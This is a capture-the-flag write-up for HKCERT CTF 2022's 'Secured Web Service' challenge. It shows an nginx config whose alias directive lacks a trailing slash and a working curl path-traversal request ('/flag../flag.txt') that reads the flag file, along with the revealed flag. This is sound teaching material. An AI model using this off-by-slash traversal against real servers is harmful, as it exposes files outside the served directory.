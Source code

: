 # Secured Web Service

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

- Challenge difficulty: ★★☆☆☆

## Background

Find the flag in `/var/www/html/flag.txt`

Web: [http://chal.hkcert22.pwnable.hk:28308/flag/](http://chal.hkcert22.pwnable.hk:28308/flag/)

Attachment: [secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip](https://file.hkcert22.pwnable.hk/secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112044224.png)

## Find the flag

**In this challenge, we can download an attachment:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# unzip secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip 
Archive:  secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip
  inflating: nginx.conf
```

**`nginx.conf`:**
```
worker_processes auto;
error_log stderr warn;
pid /run/nginx.pid;

events {
    worker_connections 1024;
}

http {
    include mime.types;
    default_type application/octet-stream;

    # Define custom log format to include reponse times
    log_format main_timed '$remote_addr - $remote_user [$time_local] "$request" '
                          '$status $body_bytes_sent "$http_referer" '
                          '"$http_user_agent" "$http_x_forwarded_for" '
                          '$request_time $upstream_response_time $pipe $upstream_cache_status';

    access_log /dev/stdout main_timed;
    error_log /dev/stderr notice;

    keepalive_timeout 65;

    # Write temporary files to /tmp so they can be created as a non-privileged user
    client_body_temp_path /tmp/client_temp;
    proxy_temp_path /tmp/proxy_temp_path;
    fastcgi_temp_path /tmp/fastcgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    scgi_temp_path /tmp/scgi_temp;

    # Default server definition
    server {
        listen [::]:8080 default_server;
        listen 8080 default_server;
        server_name _;

        sendfile off;
        tcp_nodelay on;
        absolute_redirect off;


        location /flag {
            # First attempt to serve request as file, then
            # as directory, then fall back to index.php
            #try_files $uri $uri/ /index.php?q=$uri&$args;
            alias /var/www/html/flag/;
        }

    }
}
```

This web server has 1 location: `/flag`, and **it's missing the trailling slash**!

**`/flag`:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag' 
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.23.2</center>
</body>
</html>
                                                                                                           
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag/'
<html>
<head>
  <title>Slash</title>
</head>

<body>
  <p>Hello World</p>
  <script>
    location.replace("https://www.youtube.com/watch?v=RQ76vkzmolQ&t=0s")
  </script>
</body>

</html>
```

**When I reach to `/flag/`, it has a JavaScript that redirects me to a rickroll YouTube video.**

**Also, in the `<title>` tag, it's `Slash`, which is a hint of missing the trailling slash!**

**After some goolging, I found this [Tweet](https://twitter.com/x0rz/status/1052899891624710145?lang=en):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112045704.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112045711.png)

**In Hack.lu 2018, a researcher [Orange Tsai](https://twitter.com/orange_8361) from TaiWan discovered a Nginx off-by-slash vulnerability!**

**Since we know the flag is in `/var/www/html/flag.txt` according to the challenge's description, we can just `curl` the flag!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag../flag.txt'   
hkcert22{y0u_4re_4s_k1ng_4s_0r4ng3_g0_bug_hunt1ng}
```

We got the flag!

# Conclusion

What we've learned:

1. Nginx Off-By-Slash Vulnerability